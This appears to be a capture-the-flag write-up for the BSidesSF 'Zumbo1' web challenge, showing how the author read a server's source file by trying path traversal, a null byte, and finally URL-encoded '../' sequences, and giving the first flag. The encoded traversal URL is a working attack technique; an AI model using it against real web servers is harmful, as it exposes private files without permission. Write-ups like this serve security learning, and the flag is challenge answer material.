 Challenge: Zumbo1 
----------------------------------------
Category: Web 
----------------------------------------
20 points 
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stages 2 and 3 - coming soon!

```

We connect to the site.

<img src="./../files/site2.png">

```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:
http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```
<img src="./../files/erreur_null_byte.png">


We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py


<img src="./../files/flag1.png">


Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

``` 
